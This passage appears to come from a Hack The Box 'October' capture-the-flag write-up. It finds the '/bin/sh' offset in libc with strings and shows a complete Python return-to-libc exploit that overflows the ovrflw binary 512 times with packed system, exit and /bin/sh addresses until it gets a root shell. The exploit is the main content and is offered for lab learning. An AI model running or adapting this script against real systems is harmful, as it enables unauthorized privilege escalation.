 
Since `/bin/sh` is not a system call like `system` and `exit`, I cannot use `readelf` to get its memory offset.
Instead, I can just use `strings` against the `libc` library.

```bash
www-data@october:/dev/shm$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
n/shngs -atx /lib/i386-linux-gnu/libc.so.6 | grep /bi 
 162bac /bin/sh
```

The `/bin/sh` memory address is `0x00162bac`.

Now I create my final payload.
This script will run my exploit a maximum of 512 times.

```python
#!/usr/bin/env python

from subprocess import call
import struct

buffersled = "A"*112

libc = 0xb755c000
system = struct.pack('<I', libc + 0x00040310)
exit = struct.pack('<I', libc + 0x00033260)
binsh = struct.pack('<I', libc + 0x00162bac)

payload = buffersled + system + exit + binsh


i = 0
while (i < 512):
    print("Try %s" % i)
    i += 1
    ret = call(["/usr/local/bin/ovrflw", payload])
```

I upload this payload to the target machine and execute it.
Within a few seconds I have a root shell!

![overflow root shell][]

I am off to grab the root flag.

[birthday paradox]: https://en.wikipedia.org/wiki/Birthday_problem
[gdb]: https://www.gnu.org/software/gdb/
[hackthebox]: https://www.hackthebox.eu
[htb frolic]: https://blog.artis3nal.com/2020-06-28-htb-frolic-msf/
[lse]: https://github.com/diego-treitos/linux-smart-enumeration
[october cms]: https://octobercms.com/
[peda]: https://github.com/longld/peda
[return-to-libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[searchsploit]: https://github.com/offensive-security/exploitdb#searchsploit

[birthday paradox calculation]: /assets/img/htb/october/birthday-paradox.png
[checksec]: /assets/img/htb/october/checksec.png
[gdb peda]: /assets/img/htb/october/gdb-with-peda.png
[overflow root shell]: /assets/img/htb/october/buffer-overflow-brute.png
